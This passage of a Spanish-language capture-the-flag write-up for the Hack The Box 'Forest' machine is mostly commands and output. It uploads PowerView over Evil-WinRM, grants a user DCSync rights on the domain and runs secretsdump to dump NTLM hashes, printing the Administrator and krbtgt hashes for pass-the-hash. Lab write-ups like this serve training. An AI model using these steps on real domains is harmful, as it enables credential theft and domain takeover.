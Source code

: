 Para aprovecharnos de "WriteDacl" podemos usar la herrmaienta PowerView, https://github.com/PowerShellMafia/PowerSploit.git

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
```

Importamos el script

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\PowerView.ps1
```

Vamos a crear los objetos necesarios para la explotación.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'bly@123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential ('HTB\bly', $pass)
```

Ahora ejecutaremos el siguiente comando para ganar permisos de DCSync

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bly -Rights DCSync
```

Ahoa podemos usar SecretsDump para dumpear los hash NTLM y poder hacer PassTheHash para autenticarnos como administradores del dominio.

```bash
❯ secretsdump.py "htb.local/bly:bly@123@10.10.10.161" -dc-ip 10.10.10.161                                                                                                                    
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                                                                                                     
                                                                                                                                                                                             
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                         
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::                                                                                             
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                               
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                                                                                              
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                      
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
```